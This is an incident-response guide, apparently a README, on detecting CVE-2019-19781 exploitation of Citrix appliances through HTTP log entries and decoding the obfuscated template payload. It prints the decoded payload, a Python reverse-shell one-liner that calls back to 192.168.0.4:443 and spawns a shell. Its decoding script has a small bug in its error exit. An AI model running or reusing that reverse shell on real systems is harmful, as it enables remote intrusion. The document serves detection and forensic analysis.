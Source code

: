 ### HTTP Logs

When looking at the logs there will be at minimum 2 HTTP requests, with the first being a `POST` or `GET` to a vulnerable perl script which includes the directory traversal in the path `'/../'`

The second will generally be a `GET` request to an XML file with a random name. 
Example from the 2nd released public exploit from [Trustedsec](https://github.com/trustedsec/cve-2019-19781/blob/master/citrixmash.py) (which invokes a reverse shell):

```
root@ns# tail -2 /var/log/httpaccess.log

192.168.0.4 - - [28/Nov/2019:22:28:20 +0000] "POST /vpns/portal/scripts/newbm.pl HTTP/1.1" 200 135 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0" "Time: 6809 microsecs"

192.168.0.4 - - [28/Nov/2019:22:28:22 +0000] "GET /vpns/portal/xbtewgybbp.xml HTTP/1.1" 200 696 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0" "Time: 147744 microsecs"
```

This specific exploit encodes the payload into character codes. If you see something like this in the template you can decode it :
```
    <bookmark UI_inuse="a" descr="desc" title="[% template.new({'BLOCK'='print readpipe(chr(47) . chr(118) . chr(97) . chr(114) . chr(47) . chr(112) . chr(121) . chr(116) . chr(104) . chr(111) . chr(110
```

Paste the whole template file into a text file `payload.txt` :

```
$ python decode.py payload.txt 
/var/python/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.4",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Here is a quick and dirty decoding script:
```
$ cat decode.py 
import re
import sys

if len(sys.argv) != 2 :
   print "usage: ./decode.py payload.txt"
   sys.exit(1)

f = open(sys.argv[1])
l = [b.rstrip() for b in f.readlines()]
j = "".join(l)
f.close()
a = re.search(r'.*readpipe\((.*)\)\'.*', j)
if a is None :
   print "Can't find encoded payload"
   os.Exit(1)

payload = ""
for i in a.group(1).split('.') :
   c = re.search(r'chr\((\d+)\)',i)
   if c is not None :
      k = int(c.group(1))
      payload = payload + str(chr(k))
print payload
```
